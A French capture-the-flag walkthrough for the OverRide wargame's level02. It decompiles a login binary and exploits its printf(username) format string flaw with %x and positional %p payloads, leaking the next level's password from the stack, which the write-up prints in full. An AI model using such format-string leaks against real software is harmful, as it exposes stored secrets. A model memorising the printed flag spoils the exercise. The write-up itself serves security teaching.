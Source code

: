 # LEVEL 02

On decompile le binaire avec Ghidra: 
```c
undefined8 main(void)

{
  int iVar1;
  size_t sVar2;
  long lVar3;
  char *pcVar4;
  char local_118 [112];
  char local_a8 [48];
  char local_78 [100];
  int local_14;
  FILE *local_10;
  
  pcVar4 = local_78;
  for (lVar3 = 0xc; lVar3 != 0; lVar3 = lVar3 + -1) {
    pcVar4[0] = '\0';
    pcVar4[1] = '\0';
    pcVar4[2] = '\0';
    pcVar4[3] = '\0';
    pcVar4[4] = '\0';
    pcVar4[5] = '\0';
    pcVar4[6] = '\0';
    pcVar4[7] = '\0';
    pcVar4 = pcVar4 + 8;
  }
  pcVar4[0] = '\0';
  pcVar4[1] = '\0';
  pcVar4[2] = '\0';
  pcVar4[3] = '\0';
  pcVar4 = local_a8;
  for (lVar3 = 5; lVar3 != 0; lVar3 = lVar3 + -1) {
    pcVar4[0] = '\0';
    pcVar4[1] = '\0';
    pcVar4[2] = '\0';
    pcVar4[3] = '\0';
    pcVar4[4] = '\0';
    pcVar4[5] = '\0';
    pcVar4[6] = '\0';
    pcVar4[7] = '\0';
    pcVar4 = pcVar4 + 8;
  }
  *pcVar4 = '\0';
  pcVar4 = local_118;
  for (lVar3 = 0xc; lVar3 != 0; lVar3 = lVar3 + -1) {
    pcVar4[0] = '\0';
    pcVar4[1] = '\0';
    pcVar4[2] = '\0';
    pcVar4[3] = '\0';
    pcVar4[4] = '\0';
    pcVar4[5] = '\0';
    pcVar4[6] = '\0';
    pcVar4[7] = '\0';
    pcVar4 = pcVar4 + 8;
  }
  pcVar4[0] = '\0';
  pcVar4[1] = '\0';
  pcVar4[2] = '\0';
  pcVar4[3] = '\0';
  local_10 = (FILE *)0x0;
  local_14 = 0;
  local_10 = fopen("/home/users/level03/.pass","r");
  if (local_10 == (FILE *)0x0) {
    fwrite("ERROR: failed to open password file\n",1,0x24,stderr);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  sVar2 = fread(local_a8,1,0x29,local_10);
  local_14 = (int)sVar2;
  sVar2 = strcspn(local_a8,"\n");
  local_a8[sVar2] = '\0';
  if (local_14 != 0x29) {
    fwrite("ERROR: failed to read password file\n",1,0x24,stderr);
    fwrite("ERROR: failed to read password file\n",1,0x24,stderr);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  fclose(local_10);
  puts("===== [ Secure Access System v1.0 ] =====");
  puts("/***************************************\\");
  puts("| You must login to access this system. |");
  puts("\\**************************************/");
  printf("--[ Username: ");
  fgets(local_78,100,stdin);
  sVar2 = strcspn(local_78,"\n");
  local_78[sVar2] = '\0';
  printf("--[ Password: ");
  fgets(local_118,100,stdin);
  sVar2 = strcspn(local_118,"\n");
  local_118[sVar2] = '\0';
  puts("*****************************************");
  iVar1 = strncmp(local_a8,local_118,0x29);
  if (iVar1 == 0) {
    printf("Greetings, %s!\n",local_78);
    system("/bin/sh");
    return 0;
  }
  printf(local_78);
  puts(" does not have access!");
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

On peux voir ```printf(local_78)``` ce qui montre une faille de type format string. 

On peux donc utiliser ce printf afin de faire ressortir les variables. 

```bash
--[ Username: AAAA %x %x %X %x %x %x %x %x %x %x %x %x %x %x %x %X %x %x %x %x %x %x %x %x %x %x %x %x %X %x %x %x %x %x %x %x %x %x %x %x %x %X %x %x %x %x %x %x %x %x %x %x %x %x %X %x %x %x %x %x %x %x %x %x %x %x %x %X %x %x %x %x %x %x %x %x %x %x %x %x %X %x %x %x %x %x %x %x %x %x %x %x %x %X %x %x %x %x %x %x %x %x %x %x %x %x %X %x %x %x %x %x %x %x %x %x %x
--[ Password: *****************************************
AAAA ffffe500 0 78 2a2a2a2a 2a2a2a2a ffffe6f8 f7ff9a08 78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 252078 0 34376848 61733951 574e6758 6e475873 664b394d feff00 41414141 25207825 20782520 78252078  does not have access!
```

les `0` montrent la fin d'une variable.
`feff00` montre potentiellement la fin d'une string.
Nous pouvons voir une suite de valeurs qui correspondrait a une string et de plus, des valeurs qcorrespondantes a des valeurs ASCII.
(`0 34376848 61733951 574e6758 6e475873 664b394d feff00`).
Nous avons donc entre le debut `0` et la fin `feff00` la chaine du mot de passe.

Systeme 64bits donc **%x** ne recupere que la moitie des informations, il faut donc utiliser **%p** a partir de **%22**

```bash
level02@OverRide:~$ echo "%22\$p %23\$p %24\$p %25\$p %26\$p" | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d does not have access!
```
`0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d` = `756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d`


CyberChef pour sortir le mot de passe de la sortie du printf - 
swap endianness

et from Hex separator space et lenght: 8 car 64bit

 ***Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H***

 
